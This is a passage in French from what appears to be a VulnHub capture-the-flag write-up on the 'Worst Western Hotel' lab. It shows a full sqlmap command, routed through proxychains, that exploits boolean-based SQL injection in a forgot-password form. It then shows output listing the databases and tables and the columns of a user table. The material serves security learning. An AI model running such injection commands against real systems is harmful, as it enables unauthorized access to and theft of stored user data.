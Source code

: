 ![VulnHub CTF worst western hotel boolean-based SQL injection](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/wwhotel/boolean_sql.png)  

Par défaut (en ne passant que les options de base) SQLmap s'y cassait les dents, il a donc fallut le tenir par la main pour qu'il voit l'exploitation boolean-based :  

```bash
$ ./proxychains4 -q -f docker_socks.conf python /tools/sqlmap-dev/sqlmap.py -u 'https://192.168.0.1/forgot-password.php' --data 'email=yolo*&submit=&submit=' --timeout 60 --dbms mysql --level 5 --risk 3 --string 'Your Password'
```

Pour la suite je vous renvoie à l'aide de SQLmap (options *--dbs*, *-D*, *-T*, *--dump*) :  

```plain
available databases [2]:
[*] crm
[*] information_schema

Database: crm
[5 tables]
+-----------+
| user      |
| admin     |
| prequest  |
| ticket    |
| usercheck |
+-----------+

Database: crm
Table: user
[7 entries]
+----+---------------+-------------------------+--------+------------+--------+----------------------------+------------------+--------------------------------+------------+---------------------+
| id | name          | email                   | status | mobile     | gender | address                    | password         | alt_email                      | user_image | posting_date        |
+----+---------------+-------------------------+--------+------------+--------+----------------------------+------------------+--------------------------------+------------+---------------------+
```
